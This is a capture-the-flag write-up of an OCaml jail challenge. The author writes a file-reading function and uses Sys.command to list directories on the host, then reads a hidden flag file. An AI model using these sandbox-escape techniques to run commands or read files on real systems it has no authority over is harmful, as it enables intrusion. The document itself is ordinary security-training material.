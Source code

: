 # Misc/Ojail

![Untitled](Misc%20Ojail/Untitled.png)

I didn’t hear of Ocaml before, so googling was preliminary.

I later discovered it’s a functional programming language.

![Untitled](Misc%20Ojail/Untitled%201.png)

i google a lot and played a bit with the interface.

I found a function that permits to read a file from a filepath:

```python
let read_file filepath =
  let channel = open_in filepath in
  let rec read_lines lines =
    try
      let line = input_line channel in
      read_lines (line :: lines)
    with
      End_of_file ->
        close_in channel;
        List.rev lines
  in
  read_lines [];;

let content = read_file "flag.txt";;
```

I was able to read flag.txt but it was a fake flag unfortunately

![Untitled](Misc%20Ojail/Untitled%202.png)

I later found a Sys module that’s supposed to let me execute linux commands on the host. 

```python
let cmd = Sys.command "ls";;
print_endline ("Command exit status: " ^ string_of_int cmd);;
```

![Untitled](Misc%20Ojail/Untitled%203.png)

That was exactly what i needed, i dicovered the secret directory found the filename of the flag.

```python
let cmd = Sys.command "ls ./secret";;
print_endline ("Command exit status: " ^ string_of_int cmd);;
```

![Untitled](Misc%20Ojail/Untitled%204.png)

Using the previously declared function i’m able to read the flag.

```python
let content = read_file "./secret/flag-1d573e0faa99.json";;
```

![Untitled](Misc%20Ojail/Untitled%205.png)

Made By Fckroun with <3
